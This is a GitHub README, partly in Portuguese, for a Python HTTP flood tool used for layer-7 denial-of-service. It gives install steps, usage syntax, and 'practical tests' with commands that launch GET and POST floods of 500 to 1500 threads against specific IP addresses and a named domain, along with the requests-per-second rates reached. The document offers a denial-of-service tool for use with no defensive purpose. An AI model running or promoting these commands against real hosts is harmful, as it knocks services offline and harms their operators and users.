




# Python-HTTP-Flood

## Install
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Usage 
```sh
python main.py <target> <GET/POST> <threads>
example: python main.py http://51.159.30.249 POST 1500
```

Pc usado para rodar o script é uma máqiquina virtual com 1 nucleo e 2gb de ram

## Testes na pática `POST`
https://dstat.cc/l7?id=MULTACOM-CORPORATION

`python main.py http://142.171.195.145/HIT POST 500`
### Requisições por segundo
máxima: 1500
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1

`python main.py https://nodec.mediathektv.com POST 700`
### Requisições por segundo
máxima: 2800
media: 1500

## Testes na pática `GET`
https://dstat.cc/l7?id=MULTACOM-CORPORATION

`python main.py http://142.171.195.145/HIT GET 500`
### Requisições por segundo
máxima: 3000
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1

`python main.py https://nodec.mediathektv.com GET 700`
### Requisições por segundo
máxima: 2200
media: 1500
